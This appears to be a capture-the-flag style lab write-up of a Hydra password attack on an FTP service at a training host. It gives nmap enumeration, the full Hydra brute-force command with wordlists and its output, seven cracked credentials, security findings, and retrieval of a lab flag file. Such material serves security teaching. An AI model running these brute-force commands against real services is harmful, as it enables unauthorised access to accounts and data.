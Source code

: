 ### **Detailed Technical Report:**
```markdown
## Comprehensive Hydra Password Attack Analysis

### Executive Summary:
Password attack conducted against FTP service revealed critical security vulnerabilities. Seven user accounts compromised using common password lists, indicating weak password policies and lack of security controls.

### Technical Details:

#### Discovery Phase:
```bash
# Service enumeration
nmap -sV demo.ine.local
# Result: FTP service ProFTPD 1.3.5a on port 21

# Authentication testing
telnet demo.ine.local 21
# Result: Basic authentication supported
```

#### Attack Phase:
```bash
# Primary attack command
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local -t 4 ftp

# Attack statistics
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7963 login tries
[DATA] attacking ftp://demo.ine.local:21/
```

#### Results Analysis:
**Successful Authentications:**
- sysadmin:654321 - Numeric password (weak)
- rooty:qwerty - Dictionary word (very weak)
- demo:butterfly - Dictionary word (weak)
- auditor:chocolate - Dictionary word (weak)
- anon:purple - Color name (weak)
- administrator:tweety - Character name (weak)
- diag:tigger - Character name (weak)

**Security Findings:**
1. **No Account Lockout:** Service accepts unlimited login attempts
2. **Weak Password Policy:** Simple dictionary words accepted
3. **Default Accounts:** Standard account names not disabled
4. **No Rate Limiting:** No delays between authentication attempts
5. **Clear Text Storage:** Passwords likely stored without hashing

### Post-Exploitation Activities:
```bash
# File system access verification
ftp demo.ine.local
# Username: sysadmin, Password: 654321
# Commands: ls, get secret.txt, pwd

# Data exfiltration proof
cat secret.txt
# Content: 260ca9dd8a4577fc00b7bd5810298076
```
